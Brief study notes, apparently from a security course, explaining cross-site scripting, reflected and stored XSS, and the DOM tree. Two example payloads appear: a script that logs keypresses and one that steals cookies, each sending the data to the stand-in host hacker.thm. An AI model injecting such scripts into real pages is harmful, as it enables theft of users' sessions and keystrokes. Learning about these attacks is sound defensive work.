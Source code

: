 XSS: Code injected by an attacker to be executed by a vulnerable webpage accessed by the victim. 
Ex.  <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
 or <script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
 Reflected XSS: Victim accesses a link created by an attacker. The link contains injected code in the URL parameters, causing malicious code to run through the vulnerable website on the victim's computer.

Stored XSS: Attacker injects malicious code into vulnerable website input field, this gets stored on the database and displayed on the page(eg. comment on a forum). Any user accessing the page will run the attacker's code

DOM = Document Object Model: root: <html> -> element: <head> -> element: <title> -> text: "My Title"